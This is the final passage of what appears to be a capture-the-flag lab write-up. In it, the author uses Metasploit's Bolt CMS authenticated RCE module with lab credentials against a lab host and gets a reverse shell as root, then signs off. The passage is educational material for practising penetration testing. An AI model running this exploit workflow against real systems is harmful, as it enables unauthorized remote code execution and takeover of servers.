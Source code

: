 ```terminal
Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/bolt_file_upload

msf6 > use exploit/unix/webapp/bolt_authenticated_rce
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PasSWORD boltadmin123
PasSWORD => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.144.77
rhosts => 10.10.144.77
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set lhost tun0
lhost => 10.11.31.131
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.11.31.131:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "kfabkk".
[*] Found 3 potential token(s) for creating .php files.
[+] Used token 150bbd603b7b29da72b6b60648 to create oysfcpnse.php.
[*] Attempting to execute the payload via "/files/oysfcpnse.php?kfabkk=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 1 opened (10.11.31.131:4444 -> 10.10.144.77:38544 ) at 2022-01-09 15:54:07 -0500
[+] Deleted file oysfcpnse.php.
[+] Reverted user profile back to original state.


whoami
root
```

And just like that, we have exploited the machine, no privilege escalation needed cause we are already root.

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
